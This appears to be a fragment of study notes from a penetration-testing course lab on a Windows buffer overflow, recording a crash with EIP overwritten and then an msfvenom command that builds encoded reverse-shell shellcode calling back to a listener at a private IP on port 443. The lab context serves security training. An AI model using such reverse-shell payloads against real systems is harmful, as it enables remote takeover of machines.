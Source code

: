 ### The crash. EIP is 10090C83
![8c9a83f57a04ee6891b6c30cfaa25d70.png](../../_resources/528e6f08914e454e9591dd40a124fd30.png)


# 11.2.9.1
## 1. Update your PoC to include a working payload.

Run msfvenom to create shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`